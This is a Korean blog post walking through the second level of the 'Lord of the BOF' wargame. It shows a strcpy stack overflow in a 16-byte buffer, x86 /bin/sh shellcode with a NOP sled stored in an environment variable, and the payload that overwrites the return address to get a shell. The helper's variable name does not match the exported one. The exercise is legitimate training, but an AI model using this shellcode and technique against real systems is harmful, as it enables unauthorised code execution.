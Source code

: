 ```yaml
---
layout: post
title: "기초에 심하게 충실한 LOB일지 02[gremlin->cobolt]"
date: 2018-08-09
author: conchi
categories: Wargame LOB
---
```


 콘-하!  
 엉 말이여.. 자꾸 놀고먹고 공부안하냐 하는데...  
 안할꺼임!! 안해! 평생 멍청이로살꺼야!   
 에베ㅔㅔㅔㅔㅔㅔㅔㅔㅔ!!!  

 ![1](/assets/lob2/01.jpg)  
 <br>

 - - -

 두번째 문제에오~ 코드를 확인해봅시다.  

```
[gremlin@localhost gremlin]$ cat cobolt.c                  
/*
       The Lord of the BOF : The Fellowship of the BOF
       - cobolt
       - small buffer
*/

int main(int argc, char *argv[])
{
   char buffer[16];
   if(argc < 2){
       printf("argv error\n");
       exit(0);
   }
   strcpy(buffer, argv[1]);
   printf("%s\n", buffer);
}
```

음.. 첫번째 문제 코드랑 똑같은데 buffer의 크기만 다르군염 'ㅅ'a 그렇다면.. 똑같은 방법으로 풀자ㅏㅏㅏㅏㅏㅏㅏㅏㅏㅏ가즈아ㅏㅏㅏㅏㅏ  
<br>

```
[gremlin@localhost gremlin]$ bash2
[gremlin@localhost gremlin]$ export conchi_shell=`python -c 'print "\x90"*60+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
```
쉘코드앞에 왜 0x90이 붙는지는 구글에다가 `nop sled`라고 치면 아주 많이 나오니 참고하도록 한다. 절대 귀찮아서 그러는게 아니라 스스로 검색하는 습관을 길러야 나중에 큰 사람이 될수 있는거라는 ㅇㅇㅎㅎa 참트루임!  
<br>

1번처럼 `getenv` 함수로 환경변수의 주소를 알아오는 프로그램을 만들어서 실행!  
```
[gremlin@localhost gremlin]$ cat conenv_add.c
#include <stdio.h>
int main()
{
    printf("%x\n",getenv("conshell"));
    return 0;
}
```

<br>
```
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "A"*20 + "\x5f\xfe\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAA_þÿ¿
bash$
```
페이로드를 간단하게 설명하자면 이번엔 버퍼의 크기가 16이니까 버퍼크기16 + 4byte(sfp)이니 임의의 문자를 20개 넣어주고 그뒤에는 쉘코드가 올라가있는 환경변수의 주소를 리틀엔디언 형태로 쇽-샥-쇽 해주면~  
끝이나부려따 +_+!!
